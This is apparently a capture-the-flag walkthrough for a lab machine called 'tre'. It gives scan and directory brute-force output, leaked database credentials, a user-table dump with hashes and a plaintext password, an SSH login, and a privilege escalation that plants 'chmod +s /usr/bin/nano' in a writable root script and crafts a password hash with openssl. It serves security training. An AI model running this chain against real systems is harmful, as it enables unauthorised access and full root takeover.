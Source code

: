 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# tre
# 27/2/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
8082/tcp open  http    nginx 1.14.2


----------------------------------------------------
# dir bruteforce
----------------------------------------------------
dirb http://192.168.110.84/ /usr/share/wordlists/dirb/big.txt
/cms                  (Status: 301) [Size: 314] [--> http://192.168.110.84/cms/]
http://192.168.110.84/adminer.php
http://192.168.110.84/mantisbt/config
http://192.168.110.84/mantisbt/config/a.txt

----------------------------------------------------
# --- Database Configuration ---
----------------------------------------------------
$g_hostname      = 'localhost';
$g_db_username   = 'mantissuser';
$g_db_password   = 'password@123AS';
$g_database_name = 'mantis';
$g_db_type       = 'mysqli';

----------------------------------------------------
# sql
----------------------------------------------------
select * from 	mantis_user_table;
id	username	realname	email	password	enabled	protected	access_level	login_count	lost_password_request_count	failed_login_count	cookie_string	last_visit	date_created
1	administrator	XiBejMub	root@localhost	3492f8fe2cb409e387ddb0521c999c38	1	0	90	30	0	0	OHysKA8CiRbsM1LW0ZoWIF0gP6EGOwJovGZvGgJfDHkrPmaf2Y7qOVecYBxXDCri	1589342138	1
2	tre	Tr3@123456A!	tre@localhost	64c4685f8da5c2225de7890c1bad0d7f	1	0	70	0	0	0	bp9uP3SY4tyKMFHSytb2RyecV5fPrsvGjb4sLboLkoyodEPn0NbZID9GhRURGAvf	1589263108	1589263108

----------------------------------------------------
# exploit
----------------------------------------------------
ssh tre@192.168.1.104
Password: Tr3@123456A!

----------------------------------------------------
# priv esc
----------------------------------------------------
->ps aux
/usr/bin/check-system

->ls -la /usr/bin/check-system
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system

->nano /usr/bin/check-system
chmod +s /usr/bin/nano

->sudo shutdown -r now

on kali
openssl passwd -1 -salt user3 pass123

